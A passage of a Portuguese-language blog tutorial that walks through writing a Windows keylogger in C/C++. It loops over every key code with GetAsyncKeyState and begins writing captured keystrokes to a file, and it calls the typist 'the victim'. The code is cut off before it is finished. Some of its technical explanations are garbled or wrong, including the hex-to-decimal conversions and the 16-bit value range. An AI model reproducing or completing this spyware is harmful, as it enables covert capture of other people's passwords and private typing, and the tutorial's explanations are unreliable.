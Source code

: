 -------------API---------------------
SHORT WINAPI GetAsyncKeyState(
  _In_  int vKey
);
-------------------------------------
Code	        Meaning
VK_LSHIFT	Left-shift key.
VK_RSHIFT	Right-shift key.
VK_LCONTROL	Left-control key.
VK_RCONTROL	Right-control key.
VK_LMENU	Left-menu key.
VK_RMENU	Right-menu key.
{% endhighlight  %}
<p>Essas teclas e mais algumas teremos que trata-la caso a vitima pressione vamos adiciona olha a vitima apertou tal tecla para não ficar o código deles precisamos fazer isso você vai entender melhor ao longo do artigo. o valor de return que essa função nós dar é do tipo SHORT (Se a função tiver êxito, o valor de retorno especifica se a tecla foi pressionada desde a última chamada para GetAsyncKeyState , e se a chave está atualmente para cima ou para baixo. Se o bit mais significativo é definido, a chave está em baixo, e se o bit menos significativo é definido, a tecla foi pressionada após a chamada anterior para GetAsyncKeyState . No entanto, você não deve contar com este último comportamento; Para mais informações, consulte os comentários).se esse cara é do tipo SHORT então precisamos criar duas variáveis do tipo claro né uma vai contar e a outra vai comparar caso a função a função retorne -32767 fica tipo assim:</p>
{% highlight c++ %}
int main() {
    short i;                                               // contador 
    short keyState;                                 //comprar a letra digitada
    while(1) {                                           //tratamento 
        for(i = 0; i <= 255; i++) {                // renge vai até 255 
            keyState = GetAsyncKeyState(i); // copia o valor do caracter digitado para a nossa variável KeyState
            if(keyState == -32767) {            // Compara se a tecla digitada é igual a -32767 
{% endhighlight  %}
<p> Vamos para explicação primeiro comentei tudo fica mais fácil, mas vamos ver porque a função GetAsyncKeyState() retorna -32767 caso a tecla pressionada for verdade, isso acontece porque o bit significativo que é retornado da função  GetAsyncKeyState() são dois tipos booleanos ou é verdadeiro ou falso, mas não assim: True and False, o valor retornado é  0x8000 caso for True, ou seja, se ele voltar 0x8000 quer dizer que alguma tecla foi digitada o que temos que fazer é comprar ver se foi digitada e salvar em um arquivo vou fazer mais uma demo como seria:</p>
{% highlight c++ %}
if(GetAsyncKeyState('c')==-32767)
 {
 printf("A tecla  'c' foi pressionada :D);
}
{% endhighlight  %}
<p>Entendeu?, então caso a tecla não for pressionada vai voltar 0x8001(que convertando de hex para decimal = 37769), já o 0x800 = a 37768, mas não precisamos tratar isso né claro queremos pegar apenas as teclas pressionada, detalhe:Há 2 ^ 16 = 65.536 possíveis números de 16 bits, portanto, um número de 16 bits só pode representar um de uma série de 65536 números consecutivos. Para permitir que os números positivos e negativos, muitos sistemas de computação e linguagens de programação usar uma variedade de -32767 a 32768.  Como o menor número no intervalo, pode ser o padrão para quando nenhuma tecla é pressionada. há não falei dos Hearders a função GetAsyncKeyState() está na biblioteca <a>Windows.h</a>  e  #include <stdio.h> pra da printf; vamos continuar nosso código:</p>
{% highlight c++ %}
 while(1) {
        for(i = 0; i <= 255; i++) {
            keyState = GetAsyncKeyState(i);                                     // já sabemos :D  
            if(keyState == -32767) {                                                   // novamente compra se a captura de teclas começou 
                Sleep(30);                                                                     
                FILE *file;                                                                      // cria um variável do tipo file(arquivo)